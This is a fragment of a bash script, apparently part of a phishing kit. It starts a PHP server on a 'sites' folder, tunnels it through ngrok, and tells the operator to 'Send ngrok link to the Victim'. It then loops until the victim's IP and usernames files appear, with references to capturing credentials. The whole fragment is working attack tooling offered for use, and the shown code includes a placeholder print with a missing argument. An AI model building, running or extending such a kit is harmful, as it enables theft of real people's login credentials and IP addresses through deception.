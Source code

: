 getcredentials
}

start() {
if [[ -e sites/$server/ip.txt ]]; then
rm -rf sites/$server/ip.txt

fi
if [[ -e sites/$server/usernames.txt ]]; then
rm -rf sites/$server/usernames.txt

fi

default_ip=$(hostname -I)
ngrock_ip="127.0.0.1"
ip=127.0.0.1
ip="${ip:-${ngrock_ip}}"
printf "\e[1;92m[\e[0m*\e[1;92m] Starting php and ngrok server...\n"
sudo php -t "sites/$server" -S "$ip:80" > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m*\e[1;92m] Send ngrok link to the Victim:\e[0m\e[1;77m %s\e[0m\n"
checkfound
}
checkfound() {


printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting victim open the link ...\e[0m\n"
while [ true ]; do


if [[ -e "sites/$server/ip.txt" ]]; then
printf "\n\e[1;92m[\e[0m*\e[1;92m] IP Found!\n"
catch_ip

fi
sleep 1
done 

}
wan()
{
	chmod +x ngrok
	xterm -e ./ngrok http 80 &
}
clear
wan
sleep 6
banner
dependencies
menu
exit 0
